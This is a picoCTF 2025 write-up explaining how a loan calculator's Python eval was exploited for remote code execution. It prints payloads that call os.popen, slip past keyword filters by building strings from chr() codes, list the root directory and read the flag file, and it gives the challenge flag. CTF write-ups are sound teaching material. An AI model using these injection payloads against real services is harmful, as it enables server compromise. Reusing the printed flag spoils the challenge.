 # picoCTF2025 - Web Exploitation - 3v@l

- Write-Up Author: W4yn3Tr4n

- Flag: picoCTF{D0nt_Use_Unsecure_f@nctions6798a2d8}

## Challenge Description:

ABC Bank's website has a loan calculator to help its clients calculate the amount they pay if they take a loan from the bank. Unfortunately, they are using an eval function to calculate the loan. Bypassing this will give you Remote Code Execution (RCE). Can you exploit the bank's calculator and read the flag?

## Write up  

At first, we will be greet with the calculator using EVAL function, i have looked through the function of EVAL and i saw that EVAL is unsecure function which can be used to execute all the command that we put in

First, we check the engine of this web as well: 

![image](https://github.com/user-attachments/assets/de5fa173-a5db-4935-9051-38158b228ca6)

It is still Flask/Jinja2 --> We try some RCE payload for testing but we need to examine the source code first

![image](https://github.com/user-attachments/assets/2a89447a-8911-4b23-a2aa-bf18270b8dc7)

The rules of this EVAL is 
1. Blocking some of the keyword
2. Regex

We try some RCE payload for testing a little bit: __import__('o'+'s').popen('l'+'s'+' /').read()

![image](https://github.com/user-attachments/assets/3427ba90-c2b3-4513-a63a-2ccf58573753)

So we can see that it still blocked the keyword "" so we change it to ascii for another method: __import__(chr(111)+chr(115)).popen(chr(108)+chr(115)+chr(32)+chr(47)).read()


![image](https://github.com/user-attachments/assets/df030d03-c4b4-49f9-bfd7-f13516b19ae9)

Its work !! We can see the flag.txt, so we just adjust the payload a little bit for reading the file flag.txt: __import__(chr(111)+chr(115)).popen(chr(99)+chr(97)+chr(116)+chr(32)+chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(42)).read()

![image](https://github.com/user-attachments/assets/2b96f59b-2516-4af5-9760-2df61c915988)


























